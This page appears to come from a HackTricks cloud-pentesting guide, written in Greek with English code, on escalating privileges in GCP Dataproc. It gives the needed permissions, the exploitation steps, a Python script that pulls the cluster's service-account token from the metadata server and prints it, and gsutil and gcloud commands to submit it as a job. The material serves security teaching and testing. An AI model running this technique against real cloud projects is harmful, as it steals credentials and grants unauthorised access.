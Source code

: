 # GCP Dataproc Privilege Escalation

{{#include ../../../banners/hacktricks-training.md}}

## Dataproc

{{#ref}}
../gcp-services/gcp-dataproc-enum.md
{{#endref}}

### `dataproc.clusters.get`, `dataproc.clusters.use`, `dataproc.jobs.create`, `dataproc.jobs.get`, `dataproc.jobs.list`, `storage.objects.create`, `storage.objects.get`

Δεν μπόρεσα να αποκτήσω ένα reverse shell χρησιμοποιώντας αυτή τη μέθοδο, ωστόσο είναι δυνατό να διαρρεύσει το SA token από το endpoint μεταδεδομένων χρησιμοποιώντας τη μέθοδο που περιγράφεται παρακάτω.

#### Βήματα για εκμετάλλευση

- Τοποθετήστε το script εργασίας στο GCP Bucket

- Υποβάλετε μια εργασία σε ένα Dataproc cluster.

- Χρησιμοποιήστε την εργασία για να αποκτήσετε πρόσβαση στον διακομιστή μεταδεδομένων.

- Διαρρεύστε το token του service account που χρησιμοποιείται από το cluster.
```python
import requests

metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
try:
response = requests.get(metadata_url, headers=headers, timeout=5)
response.raise_for_status()
token = response.json().get("access_token", "")
print(f"Leaked Token: {token}")
return token
except Exception as e:
print(f"Error fetching metadata token: {e}")
return None

if __name__ == "__main__":
fetch_metadata_token()
```

```bash
# Copy the script to the storage bucket
gsutil cp <python-script> gs://<bucket-name>/<python-script>

# Submit the malicious job
gcloud dataproc jobs submit pyspark gs://<bucket-name>/<python-script> \
--cluster=<cluster-name> \
--region=<region>
```
{{#include ../../../banners/hacktricks-training.md}}
